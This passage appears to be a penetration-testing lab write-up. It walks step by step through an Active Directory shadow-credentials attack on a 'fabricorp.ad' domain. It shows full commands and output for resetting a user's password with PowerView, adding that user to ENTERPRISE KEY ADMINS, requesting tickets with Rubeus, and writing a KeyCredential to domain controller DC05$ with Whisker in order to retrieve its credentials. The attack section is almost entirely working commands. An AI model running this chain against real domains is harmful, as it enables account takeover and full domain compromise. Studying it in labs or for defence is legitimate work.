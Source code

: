 #### Performing the Attack

Since we have admin rights, we first changed Harry's password and now proceed to change Alex's password by abusing ACLs:

```
# Changing Alex's password
PS C:\Users\harry\Desktop> . .\PowerView.ps1
PS C:\Users\harry\Desktop> $UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
PS C:\Users\harry\Desktop> Set-DomainUserPassword -Identity alex -AccountPassword $UserPassword -Domain fabricorp.ad
```
```bash
# Adding Alex to the ENTERPRISE KEY ADMINS group
[Sep 15, 2024 - 06:56:43 (EDT)] exegol-academy /workspace # net rpc group addmem "ENTERPRISE KEY ADMINS" "Alex" -U "Fabricorp.ad"/"Alex"%'Password123!' -S "172.16.114.20"
```
We have now set up the requirements for a shadow credential attack.

Step 1: Obtain TGT

```
PS C:\Users\harry\Desktop> .\Rubeus.exe asktgt /user:Alex /password:Password123! /domain:fabricorp.ad /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.1

[*] Action: Ask TGT

[*] Using rc4_hmac hash: 2B576ACBE6BCFDA7294D6BD18041B8FE
[*] Building AS-REQ (w/ preauth) for: 'fabricorp.ad\Alex'
[*] Using domain controller: 172.16.114.20:88
[+] TGT request successful!
[*] base64(ticket.kirbi):
```
Step 2: Generate and Update KeyCredential

```
PS C:\Users\harry\Desktop> .\Whisker.exe add /target:DC05$ /domain:fabricorp.ad /dc:DC05.fabricorp.ad
[*] No path was provided. The certificate will be printed as a Base64 blob
[*] No pass was provided. The certificate will be stored with the password SFHFhtAc0h881hiS
[*] Searching for the target account
[*] Target user found: CN=DC05,OU=Domain Controllers,DC=fabricorp,DC=ad
[*] Generating certificate
[*] Certificate generaged
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID 68c4b593-c519-4ba6-bbbb-e677c2af41fe
[*] Updating the msDS-KeyCredentialLink attribute of the target object
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] You can now run Rubeus with the following syntax:

Rubeus.exe asktgt /user:DC05$ /certificate:<base64> /password:<Password> /domain:fabricorp.ad /dc:DC05.fabricorp.ad /getcredentials /show
```
Step 3: Retrieve Credentials
```
PS C:\Users\harry\Desktop> ./Rubeus.exe asktgt /user:DC05$ /certificate:<base64> /password:<Password> /domain:fabricorp.ad /dc:DC05.fabricorp.ad /getcredentials /show
```